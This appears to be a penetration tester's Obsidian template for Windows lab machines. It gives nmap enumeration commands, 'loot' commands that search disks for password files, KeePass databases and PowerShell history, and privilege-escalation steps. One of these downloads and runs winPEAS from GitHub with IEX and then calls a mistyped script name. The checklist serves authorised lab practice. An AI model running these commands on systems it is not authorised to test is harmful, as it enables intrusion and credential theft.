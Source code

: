#show #windows
<%*
const path = tp.file.folder(true).split('/');
const filename = "0_A_Win_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

# Enumeration

```bash
export hip="";nmap --top-ports 30 $hip
```

```bash
i="$hip";sudo nmap --osscan-guess -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```

> Then, create services templates.

# Initial Foothold

### Software Versions

	 `searchsploit` and Google Dorks

### Insecure configurations
> Use the service template to document possible attack vectors and document here which worked
> NSE scripts: `ls /usr/share/nmap/scripts`
> Run the following for all services: `nmap --script "safe and smb-*" $hip`. If nothing helps, try `nmap --script "smb-vuln-*" $hip`


# Loot

Hostname `hostname`
	

Flag `type C:\Users\Administrator\Desktop\proof.txt`
	
##### Users
```powershell
Get-LocalUser
```
Alternative: `net user`
##### Network
```powershell
ipconfig /all; route print; netstat -ano; netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```

##### Interesting files
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -Include *password* -Include proof.txt -Include local.txt -Include sysprep.inf -Include Unattended.xml -File -Recurse -ErrorAction SilentlyContinue; Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue; Get-History; (Get-PSReadlineOption).HistorySavePath | cat - ; 
```
	
##### Home folder
```powershell
Get-ChildItem -Recurse -Path C:\Users\ | select Parent,Name
```
	
Alternative: `dir /B /S /A-D`
##### Advanced
Mounted Volumes: `mountvol`
Devices: `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer`
Drivers: `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object "Display Name", "Start Mode", "Path"`
Shadow Copy: `vssadmin list shadows`, `mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\`
# PrivEsc
##### Find Working Dir for attack
```powershell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
	
##### WinPEAS
```bash
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); ./linpeash.ps1 -a -r | tee linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`

> I still have to run WinPEAS once and check what additional commands I need to integrate from [[2_loot-privEsc_Windows_Manually]]

##### Windows Exploit Suggester - Next Generation
On target, execute `systeminfo > systeminfo.txt` and transfer file. On kali, do
```bash
wes --muc-lookup systeminfo.txt
```

Consider [[3_dllHijacking_guide]]

Ways to login as another user:
- If we have access to the GUI -> `RunAs /user:$user cmd`
- User is in group _Remote Desktop Users_ -> RDP
- User is in group _Remote Management Users_ -> WinRM (Better use [evil-winrm](https://github.com/Hackplayers/evil-winrm) from non-interactive shells)
- User has _Log on as a batch job_ right -> Schedule task to execute a program of our choice as this user
- User has active session -> Use PsExec (SysInternals)